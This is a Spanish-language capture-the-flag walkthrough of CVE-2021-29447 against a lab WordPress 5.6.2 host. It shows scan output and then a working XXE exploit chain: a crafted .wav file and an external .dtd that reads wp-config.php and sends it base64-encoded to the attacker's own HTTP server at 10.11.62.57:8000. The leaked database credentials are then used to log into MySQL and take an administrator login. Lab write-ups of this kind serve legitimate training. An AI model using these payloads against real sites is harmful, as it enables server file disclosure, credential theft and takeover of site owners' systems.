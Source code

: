 
# INTRO VULNERABILIDAD CVE-2021-29447
Se trata de una vulnerabilidad descrita en 2021 para WP en la cual se puede subir un fichero .wav (fichero de sonido) que a su vez solicite al servidor un fichero .dtd (Document Type Definition) que contiene un payload que nos permite ver ficheros internos, por ejemplo el fichero /etc/passwd o el fichero 
wp-config.php que contiene posiblemente datos confidenciales sobre la base de datos que utiliza WP (entre ellos credenciales). Las versiones vulnerables son aquellas inferiores a 5.7.1

# SCAN
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```
# WPSCAN
```
[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.232.9/index.php/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 |  - http://10.10.232.9/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 ```
 Como vemos la version (5.6.2) es inferior a la 5.7.1 y por tanto es vulnerable
 
 ```
 [i] User(s) Identified:

[+] Corporation Test
 | Found By: Rss Generator (Passive Detection)
```
Tambien vemos que encuentra un usuario, aunque el nombre no coincide completamente con el que nos da en la descripcion que es:
> test-corp:test

# PAYLOAD
Debemos crear dos ficheros:
1. Un fichero .wav que debe estar codificado en url y que a su ver solicita un fichero .dtd 
2. Un fichero .dtd (Document Type Description) que contiene el payload que nos permite leer el archivo

## Fichero .wav
```
RIFFWAVEiXML{<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://10.11.62.57:8000/payload.dtd'>%remote;%init;%trick;]>
```

## Fichero .dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.11.62.57:8000/?p=%file;'>" >
```
El siguiente paso es crear un servidor local con:
1. $ python3 -m http.server
2. $ php -S 0.0.0.0: PORT

y despues desde el wp-admin cargar el fichero pay.wav. La respuesta esta codificada en base64 y hay que decodificarla
No se porque no puedo decodificarla desde el bash con el comando **base64** y tengo que untilizar un script en php
> <?php echo zlib_decode(base64_decode('base64here')); ?>

Se guarda esto en un fichero con
$ echo '<?php echo zlib_decode(base64_decode('base64here')); ?>' > file.php
y despues se ejecuta
> php file.php

Ahora si obtenemos el fichero de configuracion de WP que es wp-config.php y aqui podemos obtener las credenciales para el acceso a la base de datos de mysql

Con esto podemos entrar en la base de datos mysql:
> $ mysql -h <ip-address> -u thedarktangent -p sUp3rS3cret132
 y obtenemos de la tabla users el primer usuario (id=1)
 user-login: corp-001 password: teddybear
 Con estas credenciales entramos como Administrador (el administrador suele ser el id=1)
